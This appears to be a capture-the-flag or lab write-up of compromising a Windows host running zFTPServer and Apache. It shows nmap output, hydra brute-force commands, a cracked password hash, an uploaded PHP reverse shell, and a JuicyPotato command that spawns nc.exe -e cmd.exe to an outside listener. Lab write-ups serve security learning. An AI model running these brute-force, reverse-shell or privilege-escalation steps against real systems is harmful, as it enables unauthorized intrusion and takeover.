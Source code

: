 #Pwned! 
```IP
192.168.224.46
```
## Nmap
```
PORT     STATE SERVICE            REASON          VERSION
21/tcp   open  ftp                syn-ack ttl 125 zFTPServer 6.0 build 2011-10-17
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                                
| total 9680     
| ----------   1 root     root      5610496 Oct 18  2011 zFTPServer.exe
| ----------   1 root     root           25 Feb 10  2011 UninstallService.bat
| ----------   1 root     root      4284928 Oct 18  2011 Uninstall.exe
| ----------   1 root     root           17 Aug 13  2011 StopService.bat
| ----------   1 root     root           18 Aug 13  2011 StartService.bat
| ----------   1 root     root         8736 Nov 09  2011 Settings.ini
| dr-xr-xr-x   1 root     root          512 Oct 24 14:39 log
| ----------   1 root     root         2275 Aug 08  2011 LICENSE.htm
| ----------   1 root     root           23 Feb 10  2011 InstallService.bat
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 extensions
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 certificates
|_dr-xr-xr-x   1 root     root          512 Aug 03 03:34 accounts
242/tcp  open  http               syn-ack ttl 125 Apache httpd 2.2.21 ((Win32) PHP/5.3.8)
|_http-server-header: Apache/2.2.21 (Win32) PHP/5.3.8                                                                 
| http-methods:                                                                                                       
|_  Supported Methods: GET HEAD POST OPTIONS
| http-auth:                                  
| HTTP/1.1 401 Authorization Required\x0D
|_  Basic realm=Qui e nuce nuculeum esse volt, frangit nucem!
|_http-title: 401 Authorization Required
3145/tcp open  zftp-admin         syn-ack ttl 125 zFTPServer admin
3389/tcp open  ssl/ms-wbt-server? syn-ack ttl 125
```

## Nmap UDP


# Enumeration
## FTP 21
zFTPServer v6.0
```
hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt -s 21 ftp://192.168.224.46
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241024103412.png?raw=true)
Found a hash in .htpasswd as admin:admin
```
offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0
```
```
offsec:elite
```

we create reverse shell to upload since we have direct access to the apache server root directory
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241024112748.png?raw=true)
we upload it with ftp
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241024112843.png?raw=true)

we then navigate to http://target:242/run.php and listen on 4444 to get revshell
## FTP 3145
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241024103427.png?raw=true)

## HTTP 242
Bruteforce attempt 1
```
hydra -I -V -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -t 1 "http-get://192.168.224.46:242/:A=BASIC:F=401"
```

offsec:elite credentials work
trying to fuzz with them, but nothing came up
```
ffuf -request get.req -request-proto http -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -ac
```

## RDP
offsec:elite credentials not working
# PrivEsc

## Manual
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241024113324.png?raw=true)

```
.\jp.exe -l 1337 -t * -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\wamp\www\nc.exe -e cmd.exe 192.168.45.235 443"
```
now we are root
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241024120433.png?raw=true)
## Automated

### Peass
### Mimikatz



